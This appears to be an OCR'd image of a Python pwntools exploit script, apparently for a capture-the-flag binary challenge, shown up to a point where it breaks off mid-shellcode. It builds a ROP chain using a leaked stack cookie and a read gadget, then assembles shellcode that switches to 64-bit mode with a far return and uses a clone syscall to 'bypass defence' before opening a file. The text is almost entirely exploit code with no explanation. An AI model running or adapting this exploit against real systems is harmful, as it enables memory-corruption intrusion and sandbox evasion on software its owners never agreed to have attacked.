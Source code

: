 ```py
rop = 'A' * 64
rop += p32(stack_cookie)
rop += p32(0xdeadbabe) * 7

# exec code shellcode 
rop += p32(read_addr) 
rop += p32(main_base_magic) # ret
rop += p32(0)
rop += p32(main_base_magic)
rop += p32(1000)

write_note(rop)

r.send('3\n')

print r.recvuntil('Bye\n')

sc = '''
    push 0x33
    jmp addr

back:
    retf

addr:
    call back

'''

sc = asm(sc)

sc64 = ''
sc64 += '''
    mov r9, 0x0313373133731337
    mov r10, 0
    mov rdx, 0
    mov rsi, rsp
    /* CLONE_FS | CLONE_FILES */
    mov rdi, 0x00800600
    mov rsi, rsp

    mov r8, rsp
    mov rsp, 1
    mov rax, 56
    syscall 
    
    mov rsp, r8

    /* if child go to open */
    cmp rax, 0
    je open

inf:
    jmp inf

open:
    /* bypass defence */
    mov r9, 0x0313373133731337

    /* zero mode & flags */
    mov rdx, 0x1234567800000000
    xor r10, r10

```